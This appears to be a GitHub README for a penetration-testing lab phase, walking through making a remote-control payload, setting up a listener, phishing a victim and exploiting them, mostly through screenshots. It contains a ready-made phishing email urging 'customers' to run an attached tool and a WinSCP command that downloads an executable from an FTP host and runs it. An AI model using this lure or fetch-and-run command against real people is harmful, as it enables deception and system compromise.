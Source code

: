 # Penetrating-an-Internal-Network


<h1>Phase 5</h1>

I will conduct an assessment by performing initial reconnaissance and information gathering by reviewing the client's website, extracting information using whois and performing DNS reconnaissance - all while retaining command history for a pentest report.

**<p style="font-size: 15px;">Step 1: Create a remote control payloadkal.</p>**

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7f19a4b1-fcea-4695-9a44-f6f076cc5d7a)

**<p style="font-size: 15px;">Step 2: Setup the listener.</p>**

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/776669b2-337c-4d01-8876-66622f3405e6)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8291d92-cd56-40f7-b7ee-794163bd0e35)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc92f829-fd31-40ea-b41c-9d433a6a10aa)

**<p style="font-size: 15px;">Step 3: Socially engineer the victim.</p>**

Dear Customer,

It has come to our attention that your accounts are outdated and need additional configuration to continue providing optimal services. Here is a tool that will automate the process of improving your configuration so you can continue to enjoy the full benefits of our services. 

Please run the attached file at your earliest convenience.

Note: The operation of the update may take considerable time. Minimize the Command Prompt window and continue using your system normally.  

Sincerely,
The Support Department 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7bf68f95-ffd8-459b-bd48-98c878ab8ef8)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/735bbd9d-b7c4-4e4f-9556-e571d16902fa)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/c15b5d52-9417-4c60-b72d-b8bc93f2a1fd)

"C:\Program Files (x86)\WinSCP\winscp" /ini=nul /command "open ftp://svcsupport:Pa$$w0rd@203.0.113.66/ -hostkey=open" "get safetool.exe %userprofile%\Downloads\" "exit"

%userprofile%\Downloads\safetool.exe

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/44a81139-5023-4440-aacb-15c752b6a1fe)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/41e8a85b-cf6b-46f9-b5c5-cb276b24c147)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8b53073-7666-4ce2-afcc-84719bd5b36b)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/3e7ce2ef-4d3f-43ae-8664-30071b9b8dc4)

**<p style="font-size: 15px;">Step 4: Take advantage of the exploited victim.</p>**

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/37cf91b5-5adb-4ae0-a427-c2af5a0783bc)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/091b0a44-cf32-4b50-a513-c98ef0322f37)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/50cb209c-8fe3-47f9-9a40-aac8d3c066b8)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/2b2eca48-9dcb-43ed-a626-fd7e6f0dac6d)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/f36ea8ca-fe63-44d6-80a8-644b278b9e51)













